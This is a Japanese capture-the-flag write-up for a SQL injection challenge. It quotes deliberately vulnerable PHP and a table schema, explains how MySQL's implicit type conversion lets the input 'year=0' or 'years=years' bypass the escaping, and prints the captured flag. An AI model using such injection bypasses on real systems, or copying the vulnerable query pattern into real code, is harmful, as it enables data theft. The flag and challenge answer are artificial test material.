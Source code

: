 # SQL_Challenge_2

```txt
やっぱり前のページは危ない気がするからページを作り直したよ。これで大丈夫だね。

(Hint)

SQL injectionの問題です。

必要に応じてソースコード(index.php)とデータベースのスキーマ(1_schema.sql)を参考にしてください。

(注意)

sql-chall-2.zipは問題を解くために必須の情報ではなく、docker-composeを利用してローカルで問題環境を再現するためのものです。

興味のある方は利用してみてください。

writer : okmt, nkt
```

## Solution

問題にアクセスすると前の問題の改良版になってます。

配布ファイル(`index.php`)を見てみると、以下の部分が改良されていることがわかります。

```php
//urlの"year="の後に入力した文字列を$yearに入れる。
$year = $_GET["year"];

//preg_replaceで危険な記号を処理する。
$pattern = '/([^a-zA-Z0-9])/';
$replace = '\\\$0';
$year = preg_replace($pattern, $replace, $year);

//クエリを作成する。
$query = "SELECT * FROM anime WHERE years = $year";
```

これより、`a-zA-Z0-9` 以外の文字列が `\` でエスケープされるように改良されています。

次に配布ファイル(`1_schema.sql`)のDBスキーマを見てみます。

```sql
DROP TABLE IF EXISTS anime;

CREATE TABLE anime (
    name VARCHAR(32) NOT NULL,
    years VARCHAR(32) NOT NULL,
    PRIMARY KEY (name)
);
```

すると `years` が `number` (数値型)ではなく、`VARCHAR` (文字列型)で定義されていることがわかります。

MySQL の比較演算には、比較対象の一方が数値ならもう片方も数値として扱うという暗黙の型変換が行われます。

これより `years` カラムに数値以外の文字列は、全て `0` に変換されると思われます。

なのでパラメータを `years = 0` とすると数値以外の文字列のデータが表示されて、 flag を得ることができます。

また、`year=false` のようでも同じような実行結果となります。

```shell
$ curl http://localhost:8080/index.php?year=0
 ...

                    <!-- debug : SELECT * FROM anime WHERE years = 0 -->
<tr><th>FLAG{5ql_ch4r_cf_ca87b27723}</th><th>fl46_5b438f8c11a5aade00a66bea6f7</th></tr>
 ...
```

非想定解として、`years = years` でも条件を真にして flag を得ることができるそうです。

## Flag

```txt
FLAG{5ql_ch4r_cf_ca87b27723}
```
